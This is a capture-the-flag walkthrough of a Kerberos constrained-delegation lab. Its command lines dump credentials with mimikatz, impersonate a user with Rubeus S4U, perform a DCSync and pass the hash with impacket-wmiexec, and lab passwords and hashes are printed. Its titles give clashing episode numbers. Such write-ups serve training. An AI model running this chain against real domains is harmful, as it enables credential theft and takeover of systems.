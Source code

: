 ```yaml
---
date: 2025-04-23
categories: [CTF, IML]
title: "IML - Kerberos: Ep.10 – Active Directory Certificate Services"
tags: ['impacket', 'kerberos', 'ldap', 'mimikatz', 'privilege escalation', 'rce']

description: "Kerberos Ep.10 – Constrained Delegation - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.10 – Constrained Delegation


![image1](../resources/24572ad78ded4dd98fdf3c6ad76e3479.png)

- RDP:
```bash
xfreerdp /v:10.102.178.2 /u:s.villanelle /d:krbtown /p:Summ3r2021! +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Enumerating for constrained delegation:
  - Open Powerview_dev.ps1:
```bash
. .\Powerview_dev.ps1

Get-DomainComputer -TrustedToAuth

```

![image2](../resources/929e32b85b234e2a8dabd20fc9e07801.png)


![image3](../resources/5bec82bd8acc4f948467580078970b92.png)


![image4](../resources/aa1e7bdd94104b41bae886da0de5adf0.png)


![image5](../resources/c1cb618a49bb4af48af5de15fd518b91.png)

- RDP to WKS-02
- Run mimikatz
```bash
privilege::debug

sekurlsa::logonpasswords

```

![image6](../resources/c848a6fa7cc642dca0f7f15e5d943d62.png)


![image7](../resources/dc5ca5cbdc1b4844a52c7ac6aa02134a.png)

- Impersonate a.belridge, using workstation-02\$ as the target host:
```bash
.\Rubeus.exe s4u /user:workstation-02$ /rc4:[HASH] /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

.\Rubeus.exe s4u /user:workstation-02$ /rc4:6ee2e72810d54399a588b424ac22df1e /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

```

![image8](../resources/1fb367d85ec84645869a9f58d631e39c.png)


![image9](../resources/6507e1cfe4f54498893b741d1128dd2e.png)


![image10](../resources/5f0674f9dc0b4c7aab78a87b27787a1e.png)


![image11](../resources/5b32eceaae30422989624bf7549904b9.png)


![image12](../resources/89cbbec614654ca7a6039fcec99f93ca.png)


![image13](../resources/cbed1e41eff34035b87a29e067e09fe5.png)

- Run Mimikatz on an elevated command prompt:
```bash
lsadump::dcsync /user:krbtown\a.belridge

```

![image14](../resources/ad8d9d01313046279b3849a1bbe84b0c.png)

- Use wmiexec to get shell:
```bash
impacket-wmiexec [DOMAIN][USERNAME]@[TARGET] -hashes '[LM-HASH]:[NT-HASH]'

impacket-wmiexec krbtown/a.belridge@10.102.93.148 -hashes 'a76a0f6f801d8430903f7f299c18dfc4:ed882753d4665914577c19b6b85ead51'

```

![image15](../resources/65b197d9a02d4da48061d4fea7a5b6bd.png)
